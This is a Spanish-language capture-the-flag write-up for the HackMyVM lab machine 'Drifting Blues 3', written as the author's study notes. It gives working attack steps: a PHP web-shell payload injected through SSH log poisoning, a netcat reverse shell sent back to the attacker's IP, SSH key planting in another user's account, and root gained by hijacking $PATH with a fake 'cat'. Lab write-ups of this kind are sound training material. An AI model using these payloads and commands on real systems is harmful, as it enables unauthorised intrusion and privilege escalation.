Drifting Blues 3 , HACKMYVM
En este reto nos encontramos escaneo , decodificacion de bas64 , log poisoning y abuso del $PATH.
No es un reto extremadamente dificil en el aprendemos como usar el path para escalar privilegios y comprobaremos lo delicado que es mostrar logs a traves de un usario.

Herramientas y recursos web utilizados
- arp-scan
- nmap
- urlencoder
- https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
Escaneo
Empezamos averiguando la ip de la maquina victima para ello ejecutamos la herramienta arp-scan nos fijamos en el resultado y buscamos la mac que empieza por 08:00 esa mac es de virtualbox.
Ejecutamos:
sudo arp-scan --localnet

Una vez obtenida la ip pasamos al escanear puertos
nmap -A -n -p- ipvictima

Vemos que nos muestra el 22 y el 80 y en el 80 ya nos muestra una ruta /eventeadmins que debe de extraerla del fichero robots.txt todo esto lo puedes ver por firefox directamente.

Revisamos la pagina y del texto podemos ver dos nombre de posibles usuarios uno john y el otro es buddyG , tambien nos dice que cheqeemos /littlequeenofspades.html

Revisamos la pagina y a simple vista a mi no me dice nada , pero revisando su codigo encuentro un cifrado en base64 nos copiamos el churro y procedemos a decodificarlo.
El resultado de la primera decodificacion nos da otro codigo base64 , decodificamos los dos y nos da una ruta.

Vamos a la ruta que nos proporciono el codigo adminsfixit.php y vemos que es es el auth log ssh.

Log poisoning
Si intentamos login con cualuier usuario vemos que aparece reflejado en el log al refrescar la pagina.


Ahora es el momento de intentar envenenar el log para nuestro beneficio subiendo una carga util que nos permita ejecutar codigo de manera remota “RCE”
ssh <?php echo shell_exec($_GET['cmd']); ?>@ipvictima

Si ha funcionado deberiamos de poder ejuctar codigo con la siguiente ruta: http://$ipvictima/adminsfixit.php?cmd=ls Para que los resultados sean mas visibles podemos visualizar la pagina por su codigo fuente.

Desde mi punto de vista ya conseguimos lo mas complicado , ahora lo mejor en mandarnos una reverse shell , para ello ejecutamos tanto en nuestro equipo como en la victima netcat.
Primero ponemos a la escucha la maquina atacante con :
nc -lnvp 80
Y en la victima si fuera necesario podemos encodear la url para ello vamos a urlencoder.org
http://$ipvictima/adminsfixit.php?cmd=nc%20-e%20%2Fbin%2Fsh%20192.168.0.112%2080

Ya tenemos la shell en nuestra maquina ahora toca hacerla interactiva
python3 -c 'import pty; pty.spawn("/bin/sh")'
Escalada de privilegios
Encontramos un usario en home robertj el cual tiene el fichero user.txt el cual no podemos leer por permisos pues aun somos el usario www-data.
Vamos a probar a crear las claves ssh para poder conectarnos por ssh con ese usario antes deberiamos comprobar la config de sshd para ver si el usuario tiene el authorized keys activado si no esta olvidemos esta escalada.
Podemos crearlas en cualquier lugar pero mejor nos posicionamos en el directio .ssh de su home asi no la movemos despues
ssh-keygen -f robertj
Una vez creadas copiamos la clave publica a authorized_keys dentro de .ssh “obvio” y nos copiamos la privada a nuestra maquina atacante.
cp clavepublica authorized_keys
Probamos a conectar por ssh
ssh -i robertj robertj@192.168.0.102
Si lo hacemos tal y como se crearon las claves y copiamos a mi no me funciono hay que modificar los permisos y ponerlos solo de lectura para el propietario
chmod 400 robertj
Volvemos a ejecutar ahora nos pide la contraseña que dimos cuando crearmos las claves

Una vez dentro cat al user.txt para obtener la flag
413f****“*
Una vez como el usuario comprobamos si hay algun binario que pueda ejecutar como root con sudo y tambien binarios con suid
sudo -l
find / -perm /4000

El binario en cuestion es getinfo y nos vamos a aprovechar y alterar el path.
getinfo hace uso de cat , asi que nos creammos un fichero de nombre cat con el contenido /bin/bash y añadimos la ruta donde tengamos nuestro cat trucado a nuestro path
echo /bin/bash > cat
Le damos permisos de ejucion para todos.
chmod 777 cat
Añadimos nuestra ruta al path
export PATH=/tmp:$PATH
En el comando anterior veis en directorio que he usado para crear el cat malicioso , comprobamos que nuestro directorio este en el PATH.
echo $PATH

Ahora estamos listos para ejecutar getinfo ni bien se ejecute deberia leer nuestro cat trucado y hacernos root al toque

Acordaros de la flag si os interesa , gracias por leer mis apuntes.